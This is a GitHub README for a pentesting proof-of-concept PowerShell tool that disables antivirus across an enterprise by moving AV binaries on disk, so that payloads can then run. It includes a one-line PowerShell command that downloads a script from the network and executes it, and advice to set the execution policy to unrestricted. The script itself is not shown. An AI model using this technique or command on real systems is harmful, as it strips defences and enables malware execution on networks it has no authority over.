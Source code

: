 # Invoke-NeutralizeAV
Quick PoC I Wrote for Bypassing Next Gen AV Remotely for Pentesting

# Description
I created this PoC based on a recent discovery of mine during a penetration test where I had SYSTEM access but could not stop AV processes or Services.  I found that simply moving the binaries on disk to another directory essentially neutralized the running AV process.  Use this script to effectively shut down AV across an enterprise environment so you can execute your payloads, etc.  There's also an "Enable" switch to set everything back when finished.

# Instructions
You'll probably want to read the blog first at https://curtbraz.blogspot.com/2018/08/bypassing-next-gen-av-during-pentest.html.  

The assumption is being made that you are first running as SYSTEM or at least a Local or Domain Admin that can elevate to SYSTEM on a Windows OS with PowerShell.  If AV is enabled on the target you plan to run this scipt on, it will likely need to be neutralized first before this can be leveraged to disable remote targets.  See the blog for details.  Soon, I'll provide a BAT file so it's not a manual process.

Paste the following into the elevated CMD prompt to download the PS1 script.  (Note: You may need to first enable scripts on the host with `Set-ExecutionPolicy unrestricted`)

1) `powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/curtbraz/Invoke-NeutralizeAV/master/Invoke-NeutralizeAV.ps1')`

2) Enjoy! :)

<p align="center"><img align="center" width="600" alt="Invoke-NeutralizeAV Screenshot" src="https://i.imgur.com/lAyw41i.png?1"></p>

# Closing Thoughts
This is a quick and dirty PoC.  I plan to fix it up and add more functionality soon (host list, CIDR notation, disabling services & other bypass methods first, quiet mode, etc), but hopefully in the meantime this will assist people to more quickly bypass next gen AV on remote hosts during a pentest.  I can't disclose the one AV vendor I know this works against, but I'm hopeful it will work on others.  I would love it if you could report back on what does/doesn't work.  I wrote this script in a dynamic way so I didn't have to keep an ongoing list of current AV Service Names.

